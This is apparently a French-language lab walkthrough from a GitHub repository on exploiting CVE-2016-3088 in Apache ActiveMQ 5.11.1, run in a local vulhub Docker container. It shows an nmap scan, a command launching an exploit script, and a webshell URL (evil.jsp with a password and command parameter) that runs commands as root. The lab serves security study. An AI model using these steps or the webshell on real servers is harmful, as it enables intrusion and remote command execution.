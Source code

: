 CVE 2016-3088

<img width="992" alt="Capture d’écran 2024-10-31 à 19 28 54" src="https://github.com/user-attachments/assets/e20e4588-3776-4320-a3bb-e73a6db35405">

Pour commencer, lancez ActiveMQ en arrière-plan dans le dossier activemq_2016 en utilisant:
docker compose up -d

![Capture d’écran 2024-10-28 à 11 32 42](https://github.com/user-attachments/assets/78ec3caa-2c74-45b7-b19a-9ccc136e4e9c)

Accédez ensuite à l'interface ActiveMQ dans un navigateur à l'adresse :

http://localhost:8161/admin/

Vous verrez la version d'ActiveMQ, ici (5.11.1) :


![Capture d’écran 2024-10-28 à 11 35 29](https://github.com/user-attachments/assets/0521d85f-f8ac-4fa0-b8b6-427b2bc320f9)

On peut aussi voir la version de activemq dans le fichier docker-compose.yml:

![Capture d’écran 2024-10-28 à 11 38 12](https://github.com/user-attachments/assets/52a231f2-a055-442a-b362-cec6ed79b7bd)
Le suffixe with-cron dans l'image vulhub/activemq:5.11.1-with-cron indique que le conteneur ActiveMQ inclut le service cron pour exécuter automatiquement des tâches planifiées. comme des scripts ou des commandes à des moments précis dans le conteneur.

Pour scanner le réseau afin d'identifier les services actifs et leurs versions avec la commande :
nmap -p- 192.168.1.145

![Capture d’écran 2024-10-28 à 12 32 29](https://github.com/user-attachments/assets/adf66034-e307-4601-8485-cc26b76d2a32)

Pour exploiter la vulnérabilité, exécutez le script CVE-2016-3088.py :

python3 CVE-2016-3088.py -u http://localhost:8161/ 

![Capture d’écran 2024-10-28 à 11 45 24](https://github.com/user-attachments/assets/c34cc77c-42b1-4d43-9c97-e98e63946e14)

Si l’exploit réussit, vous pouvez accéder au shell en utilisant l’URL suivante :

http://localhost:8161/api/evil.jsp?pwd=9527&i=whoami

Nous avons ca:

![Capture d’écran 2024-10-28 à 11 47 17](https://github.com/user-attachments/assets/9b6de1b9-f5a5-470c-b8b9-0faf53f3d8b4)

cela prouve bien que nous somme en root et nous avons infiltré active grace au webshell

Changer whoami par n'importe quelle commande pour voir le résultat. Par exemple, pour afficher les fichiers :
![Capture d’écran 2024-10-28 à 11 49 15](https://github.com/user-attachments/assets/2b1241fb-b26f-4f18-abff-4db980a52eb0)


Cet exploit illustre l'impact de CVE-2016-3088, permettant un accès total au serveur ActiveMQ via un WebShell malveillant.

